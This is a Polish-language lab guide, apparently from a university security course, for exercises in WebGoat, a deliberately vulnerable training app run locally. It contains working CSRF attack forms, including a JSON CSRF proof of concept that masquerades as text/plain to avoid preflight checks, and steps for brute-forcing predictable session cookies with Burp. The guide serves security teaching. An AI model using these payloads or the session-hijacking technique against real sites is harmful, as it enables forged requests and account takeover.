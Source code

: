 
## INSTALACJA 

Będziemy korzystać z aplikacji WebGoat link do repozytorium znajduję się poniżej

  https://github.com/WebGoat/WebGoat

Dodatkowo będziemy potrzebowali dockera i burpa

  https://www.docker.com/products/docker-desktop/
  
  https://portswigger.net/burp/releases/professional-community-2023-10-3-6?requestededition=community&requestedplatform=

Po instalacji wszystkich 3 rzeczy możemy przejść do części praktycznej naszego projektu. 
### URUCHOMIENIE WEBGOAT
```bash
  docker run -it -p 127.0.0.1:8888:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```
  W przypadku jakichś problemów z uruchomieniem kontenera możemy spróbować uruchomić go na innym porcie, należy zapamiętać ten port gdyż będzie on wykorzystywany  w dalszej części.


# ZADANIA 
### ZADANIE 1
1. Pierwszym krokiem jest utworzenie profilu użytkownika
![App Screenshot](https://snipboard.io/ejtuPR.jpg)

2. Następnie przechodzimy do zakładki Server-side Request Forgery i wybieramy Cross-Site Request Forgeries. Zalecamy zaponzać się z dodatkową treścią umieszczoną na pierwszych dwóch slajdach w celu łatwiejszego zrozumienia tematu.

3. Teraz przechodzimy do zakładki Basic Get CSRF Exercise, w której wykonamy pierwsze zadanie. W tym momencie musimy uruchomić serwer apache. Celem tego zadania jest uruchomienie poniższego formularza z zewnętrznego źródła podczas logowania. Odpowiedź będzie zawierać "flagę" (wartość liczbową) którą wpiszemy poniżej.
4. Tworzymy plik do którego musimy wkleić kod  
```html
<html>
	<body>
	<script>history.pushState('','', '/')</script>
	 <form action="http://localhost:{NUMER_PORTU}/WebGoat/csrf/basic-get-flag" method="POST">
		<input type="hidden" name="csrf" value="false" />
		<input type="hidden" name="submit" value="Submit&#32;Query"/>
		<input type="submit" value="Submit request" />
	 </form>
	</body>
</html>
```
Po uruchomieniu tego kodu powiniśmy otrzymać status, że zadanie zostało wykonane poprawnie. Dodatkowo zwrócona została wartość liczoba flagi, którą musimy wkleić do formularza.
<br>![App Screenshot](https://snipboard.io/CZyGlD.jpg)

### ZADANIE 2
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytania wysyłane poprzez formularz z opiniami. Gdy dodamy opinię powiniśmy zauważyć wysłane zapytanie metodą POST. 
2. W tym przypadku również będziemy tworzyć plik z naszym kodem. Będzie potrzebne nam:
- post url request
- content type
- parametry 
```html
<html>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/review method=post enctype='application/x-www-form-urlencoded; charset=UTF-8'>
		<input name='pierwszy_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='drugi_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='trzeci_parametr' value='wartosc_odczytana' type='hidden'> 
		<input type=submit value="Submit">
	</form>
</html>
```
	<input name='' value='totalnielosowe' type='hidden'> - sprawia że ofiara nie jest świadoma ataku który jest przeprowadzany.
3. Po wykonaniu powyższego kodu i odświeżenia głównej strony jesteśmy w stanie zobaczyć dwie opinie.

### ZADANIE 3
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytanie wysyłane poprzez wiadomość którą uzupełniliśmy.

2. Warto zwrócić uwagę tutaj na content type.
![App Screenshot](https://snipboard.io/9OYCsH.jpg)

3. W przypadku zapytania POST i użycia content-type innego niż 3 wyżej wymienione zapytanie nie jest już wtedy proste, jest uznawane jako "preflighted request". 

4. W zapytaniu preflighted request wykonywane są dodatkowe sprawdzenia bezpieczeństwa przez serwer w celu sprawdzenia czy na prawdę jesteśmy autoryzowanym użytkownikiem do wykonania zapytania. Dlatego chcemy unikać tego typu zapytań. 

5. Zmienimy nasze zapytanie aby wykorzystywało "text/plain" zamiast "application/json"
```html
<html>
	<title>JSON CSRF POC</title>
	<center> 
	<h1>JSON CSRF POC </h1>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/feedback/message method=post enctype ="application/json">
	<input name='{"name":"WebGoat","email":"webgoat@webgoat.org","content":"Webgoat tekst","ignore_me":"'value = 'test"}' type=hidden>
	<input type=submit value="Submit">
	</form>
	</center>
</html>
```

6. Próbujemy zamaskować typ z json aby był traktowany jako zwykły tekst, dlatego używamy takiego sposobu przekazania parametrów. Parametr ignore_me jest używany w celu ominięcia problemu w którym jest to traktowane jako json.

### ZADANIE 4
1. Uruchamiamy oprogramowanie Burp Suite Community Edition, ustawiamy serwer proxy w ustawieniach windowsa i otwieramy odpowiednią przeglądarke (dokładna instrukcja konfiguracji na Upelu przedmiotu, zakładka "Zajęcia laboratoryjne numer 2")

2. Przechodzimy do zakładki (A1) Broken access control i wybieramy Hijack a session.

3. W HTTP history musimy odszukać żądanie które zawiera ciasteczka <code>hijack_cookie</code> i przesłać je do sequencera
   <br> ![App Screenshot](https://snipboard.io/LsNziA.jpg)

4. W sequencerze za pomocą live capture generujemy kilkadziesiąt/kilkaset tokenów i zapisujemy je do pliku tekstowego

5. Możemy zauważyć, że klucze są podzielone na dwie części, a ich wartości nie są losowe - pierwsza część jest czymś w rodzaju numeru użytkownika, a druga przypomina timestamp.
   <br> ![App Screenshot](https://snipboard.io/OLf5ph.jpg)

6. Żeby przeprowadzić atak brutalny należy przesłać zapytanie z ciasteczkiem <code>hijack_cookie</code> do intrudera i metodą prób i błędów próbować znaleźć token używany przez innego użytkownika.
Jeśli w zapytaniu nie przesyłane jest ciasteczko <code>hijack_cookie</code>, to trzeba jeszcze raz wysłać formularz.
Do znalezienia klucza potrzeba troche szczęścia, raczej nie znajdziecie go przy pierwszej próbie ataku.
